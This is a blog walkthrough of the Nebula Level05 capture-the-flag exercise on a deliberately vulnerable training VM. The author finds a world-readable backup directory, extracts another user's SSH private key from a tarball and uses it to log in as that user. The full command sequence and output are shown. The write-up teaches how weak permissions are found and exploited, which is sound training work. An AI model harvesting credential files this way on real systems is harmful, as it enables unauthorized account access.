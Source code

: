 ```yaml
---
title: "Exploit Exercises - Nebula Level05"
date: "2016-02-08"
slug: "exploit-exercises-nebula-level05"
Categories:
- Exploit Exercises
---
```


[Level05] instructs us to "Check the flag05 home directory. You are looking for weak directory permissions"

After navigating over to /home/flag05, we take a look at the permissions.

        level05@nebula:~$ pushd /home/flag05/
        level05@nebula:/home/flag05$ ls -al
        total 5
        drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
        drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
        drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
        -rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
        -rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
        -rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
        drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh

<!--more-->

That hidden backup directory looks interesting -- it has world-readable and execute permissions set. Let's see what it contains:

          level05@nebula:/home/flag05$ cd .backup/
          level05@nebula:/home/flag05/.backup$ ls -al
          total 2
          drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
          drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
          -rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz

Looks like it's a backup. Let's extract it to the level05 home directory and see its contents:

          level05@nebula:/home/flag05/.backup$ tar -xzvf backup-19072011.tgz -C /home/level05/
          .ssh/
          .ssh/id_rsa.pub
          .ssh/id_rsa
          .ssh/authorized_keys

The output shows a public/private key pair. Let's attempt to log into the box as flag05 using the keys.

          level05@nebula:/home/flag05/.backup$ popd
          level05@nebula:~$ ls .ssh
          authorized_keys  id_rsa  id_rsa.pub
          level05@nebula:~$ ssh flag05@localhost
          The authenticity of host 'localhost (127.0.0.1)' can't be established.
          RSA key fingerprint is 67:fe:f4:09:cd:0f:ba:dd:87:2b:73:2c:80:31:c2:68.
          Are you sure you want to continue connecting (yes/no)? yes
          Warning: Permanently added 'localhost' (RSA) to the list of known hosts.

              _   __     __          __
             / | / /__  / /_  __  __/ /___ _
            /  |/ / _ \/ __ \/ / / / / __ `/
           / /|  /  __/ /_/ / /_/ / / /_/ /
          /_/ |_/\___/_.___/\__,_/_/\__,_/

          exploit-exercises.com/nebula


          For level descriptions, please see the above URL.

          To log in, use the username of "levelXX" and password "levelXX", where
          XX is the level number.

          Currently there are 20 levels (00 - 19).


          Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

          * Documentation:  https://help.ubuntu.com/
          New release '12.04 LTS' available.
          Run 'do-release-upgrade' to upgrade to it.


          The programs included with the Ubuntu system are free software;
          the exact distribution terms for each program are described in the
          individual files in /usr/share/doc/*/copyright.

          Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
          applicable law.

          flag05@nebula:~$ getflag
          You have successfully executed getflag on a target account

That worked! After logging into the box as flag05, I ran the getflag command to verify completion of level05.
